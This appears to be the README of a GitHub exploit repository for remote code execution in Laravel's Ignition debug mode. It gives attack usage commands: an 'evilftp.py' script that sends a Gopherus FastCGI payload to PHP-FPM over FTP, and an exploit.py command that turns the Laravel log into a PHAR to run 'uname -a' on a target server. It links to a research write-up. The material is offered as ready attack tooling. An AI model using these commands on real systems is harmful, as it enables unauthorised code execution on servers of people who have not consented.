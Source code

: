 # laravel-debug-rce
laravel debug rce caused by Ignition  

## Talking to PHP-FPM using FTP
usage:   
generate your fastcgi payload [Gopherus](https://github.com/tarunkant/Gopherus/blob/master/scripts/FastCGI.py)  

python3 evilftp.py -t http://localhost:8000 -i 127.0.0.1 -f payload  
![](./resource/usage1.png)  


## Log file to PHAR
Already exists [khanhnv-2091/laravel-8.4.2-rce](https://github.com/khanhnv-2091/laravel-8.4.2-rce/blob/main/exploit.py)  
python3 exploit.py http://pwnme.me:8000 /var/www/html/laravel/storage/logs/laravel.log 'uname -a'


## References
[Laravel <= v8.4.2 debug mode RCE](https://www.ambionics.io/blog/laravel-debug-rce)

